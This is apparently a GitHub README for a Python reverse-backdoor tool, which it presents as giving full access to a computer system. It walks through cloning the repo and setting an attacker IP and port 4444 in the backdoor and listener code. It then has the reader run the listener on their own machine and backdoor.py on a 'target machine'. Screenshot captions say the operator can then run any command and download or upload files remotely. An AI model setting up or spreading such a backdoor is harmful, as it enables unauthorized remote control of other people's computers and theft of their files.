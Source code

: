 # REVERSE BACKDOOR


A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application my  backdoor is program when executed on a system gives full access to the computer system.


## RUN

1. Clone the repo 

```bash
root@kali:~# git clone https://github.com/Error-200/Hack-X.git

```
2. Change the dir 

```bash
root@kali:~#  cd Hack-X
root@kali:~/Hack-X#  cd bacckdoor

```
3.Open both the python codes in your editor and  and set your system **IP** 

```python
my_backdoor = Backdoor("set your ip", 4444)
my_backdoor.run()

```
```python
my_listener = Listener("set your ip", 4444)
my_listener.run()

```
> By default port is set to "4444" you can change according to your own use.

4. For testing purpose you can run the **server.py** (listener code) in your system  and wait for connection and and run   *      **backdoor.py** on other machine(or VB)  to test. 

<code> OWN MACHINE </code>
```python
python server.py

```

<code> TARGET  MACHINE </code>
```python
python backdoor.py

```

## SCREENSHOTS

WAIT FOR THE CONNECTION

![](img/b1.jpeg)

ONCE YOU GOT THE CINNECTION
![](img/b2.jpeg)

YOU CAN EXECUTE ANY SYSTEM COMMANDS 
![](img/b3.jpeg)

DOWNLOAD ANY FILE FROM REMOTE MACHINE  

![](img/b4.jpeg)

YOU CAN ASLO UPLOAD ANYTHING

![](img/b5.jpeg)

**Once done with the job simply run "exit" to terminate connection**

```python
root@kali:~# exit

```

### BUILD 

- Python 
- Python modules used 
  - [Sockets](https://docs.python.org/3/library/socket.html)
  - [Subprocess](https://docs.python.org/3/library/subprocess.html)
  - [base64](https://docs.python.org/3/library/base64.html)
  - [os](https://docs.python.org/3/library/os.html)
  - [json](https://docs.python.org/3/library/json.html)
